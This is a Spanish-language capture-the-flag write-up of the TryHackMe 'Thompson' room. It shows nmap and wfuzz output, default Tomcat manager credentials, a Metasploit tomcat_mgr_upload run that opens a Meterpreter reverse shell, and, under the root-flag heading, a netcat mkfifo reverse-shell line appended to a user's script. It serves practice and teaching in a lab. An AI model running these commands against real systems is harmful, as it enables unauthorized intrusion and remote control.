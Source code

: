 ```yaml
---
layout: single
title: Thompson
excerpt: "read user.txt and root.txt"
date: 2022-04-27
classes: wide
header:
  teaser: /assets/images/thm-writeup-thompson/thompson_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Metasploit
  - Tomcat
  - nmap
  - wfuzz
---
```


![logo](/assets/images/thm-writeup-thompson/thompson_logo.png)

 [Link](https://tryhackme.com/room/bsidesgtthompson "Thompson")

boot2root machine for FIT and bsides guatemala CTF

---

## 1. Fase de reconocimiento

- Para  conocer a que nos estamos enfrentando lanzamos el siguiente comando:

~~~css
ping -c 1 {ip}
~~~

![ping](/assets/images/thm-writeup-thompson/thompson_ping.png)

- De acuerdo con el ttl=63 sabemos que nos estamos enfrentando a una máquina con sistema operativo Linux.

---

## 2. Enumeración / Escaneo

- Escaneo de la totalidad de los ***65535*** puerto de red con el siguiente comando:
  
~~~css
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.25.173
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 19:54 -05
Initiating SYN Stealth Scan at 19:54
Scanning 10.10.25.173 [65535 ports]
Discovered open port 22/tcp on 10.10.25.173
Discovered open port 8080/tcp on 10.10.25.173
Discovered open port 8009/tcp on 10.10.25.173
Completed SYN Stealth Scan at 19:54, 14.26s elapsed (65535 total ports)
Nmap scan report for 10.10.25.173
Host is up, received user-set (0.17s latency).
Scanned at 2022-04-27 19:54:08 -05 for 14s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8009/tcp open  ajp13      syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.35 seconds
           Raw packets sent: 70445 (3.100MB) | Rcvd: 70349 (2.814MB)
~~~

- Escaeno de vulnerabilidades sobre los puertos 22, 8009 y 8080:
  
~~~css
└─# nmap -sCV -T4 -p22,8009,8080 10.10.25.173                   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 19:57 -05
Nmap scan report for 10.10.25.173 (10.10.25.173)
Host is up (0.16s latency).
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.11 seconds
~~~

---

- Whatweb nos da la siguiente información que nos indica que no hay una página http:

~~~css
└─# whatweb http://10.10.25.173:8080/
http://10.10.25.173:8080/ [200 OK] Country[RESERVED][ZZ], HTML5, IP[10.10.25.173], Title[Apache Tomcat/8.5.5]
~~~

- Revisión de la URL ***http://10.10.25.173:8080/***:

![url](/assets/images/thm-writeup-thompson/thompson_url.png)
---

## WFUZ

- Escaeno de subdominios con wfuzz:

~~~css
└─# wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 10.10.25.173:8080/FUZZ/
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.25.173:8080/FUZZ/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                         
=====================================================================
                                       
000000090:   200        225 L    1269 W     16585 Ch    "docs"                                          
000000902:   200        30 L     141 W      1126 Ch     "examples"                                      
000004889:   302        0 L      0 W        0 Ch        "manager"                                       
000022971:   400        0 L      0 W        0 Ch        "http%3A%2F%2Fwww"                              
thompson_manager.png000024784:   404        0 L      47 W       1002 Ch     "8646"     
~~~

- Del escaneo anterior se encotró la siguiente ruta para interesante ***manager***:

![manager](/assets/images/thm-writeup-thompson/thompson_manager.png)

## Burpsuite

- Analizando el código del inicio de sesión encontramos un usuario y contraseña:

![credentials](/assets/images/thm-writeup-thompson/thompson_cretentials.png)

- Ingreso al panel de administrador:

![manager](/assets/images/thm-writeup-thompson/thompson_manager2.png)

---

## Exploit

## Metasploit

- Buscando exploits para ***tomcat*** y después de usar algunos el siguiente funcionó: 

~~~css
7   exploit/multi/http/tomcat_mgr_upload 2009-11-09  excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
~~~

![manager](/assets/images/thm-writeup-thompson/thompson_metasploit.png)

- Procedemos a realizar la configuración:
  
~~~css
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.25.173
RHOSTS => 10.10.25.173
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set HTTpPassword s3cret
HTTpPassword => s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.9.0.43
~~~

- Ejecutamos con ***exploit***

~~~css
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.9.0.43:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying i7o9QGQiRQAs6...
[*] Executing i7o9QGQiRQAs6...
[*] Sending stage (58829 bytes) to 10.10.25.173
[*] Undeploying i7o9QGQiRQAs6 ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.9.0.43:4444 -> 10.10.25.173:46024 ) at 2022-04-27 21:09:48 -0500

meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 4.4.0-159-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
meterpreter > shell
Process 1 created.
Channel 1 created.

whoami
tomcat
~~~

- Tratamiento de la shell, con el siguiente comando mejoramos la shell:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

## Bandera usuario

- Procedemos a listar los usuarios en el directorio ***home*** y dentro de este encontramos la respectiva bandera de usuario:

![userFlag](/assets/images/thm-writeup-thompson/thompson_user.png)

---

## Bandera root


echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.43 4444 >/tmp/f" >> /home/jack/id.sh
